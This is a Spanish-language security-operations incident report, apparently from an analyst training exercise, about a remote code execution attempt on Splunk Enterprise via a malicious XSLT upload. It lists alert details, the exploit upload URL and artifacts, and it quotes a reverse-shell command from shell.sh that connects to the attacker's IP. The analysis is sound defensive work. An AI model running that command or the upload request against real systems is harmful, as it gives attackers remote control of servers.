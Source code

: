 

## Informe de Incidente - Evento 201

---

### Identificación del Incidente

- **Descripción:** Se detectó una ejecución remota de código en Splunk Enterprise a través de la carga de archivos maliciosos utilizando XSLT por parte de un usuario no autorizado.
- **EventID:** 201
- **Hora del Evento:** Noviembre 21, 2023, 12:24 PM
- **Regla Detectada:** SOC239 - Remote Code Execution Detected in Splunk Enterprise
- **Nivel de Alerta:** Analista de Seguridad
- **Hostname:** Splunk Enterprise
- **Dirección IP de Origen:** 180.101.88.240
- **Dirección IP de Destino:** 172.16.20.13
- **HTTP Request Method:** POST
- **URL Solicitada:** http://18.219.80.54:8000/en-US/splunkd/__upload/indexing/preview?output_mode=json&props.NO_BINARY_CHECK=1&input.path=shell.xsl
- **Ruta del Archivo Disparador:** /opt/splunk/var/run/splunk/dispatch/1700556926.3/shell.xsl
- **Razón de Activación:** Se detectó una carga de archivos XSLT maliciosos en Splunk Enterprise con el potencial de desencadenar una ejecución remota de código.
- **Acción del Dispositivo:** Permitida

### Análisis del Incidente

#### Tipo de Ataque: Ejecución Remota de Código mediante xml (RCE)

El incidente implica la ejecución remota de código en Splunk Enterprise mediante la carga de archivos maliciosos utilizando XSLT por parte de un usuario no autorizado. Esta acción puede resultar en un compromiso significativo de la seguridad de la plataforma Splunk y poner en riesgo la integridad y confidencialidad de los datos.

#### Evaluación de Artefactos

Se encontraron dos archivos asociados al incidente:

- **shell.sh:** Contiene el siguiente comando: `sh -i >& /dev/tcp/180.101.88.240/1923 0>&1`, lo que indica un intento de establecer una conexión de shell inversa.
- **shell.xsl:** Contiene código XSLT diseñado para realizar una inyección XML externa (XXE), específicamente un ataque de inyección de entidad externa XML.

#### Evaluación de Logs

Se recopilaron registros de firewall y proxy que muestran la interacción entre las direcciones IP y puertos involucrados en el incidente. Estos registros confirman la comunicación entre el origen malicioso y el destino en la infraestructura de Splunk Enterprise.

#### Evaluación de IP

La dirección IP de origen (180.101.88.240) se identificó como maliciosa por múltiples proveedores de seguridad. Perteneciente a la red de la empresa China Telecom, su reputación indica un alto riesgo de actividad maliciosa.
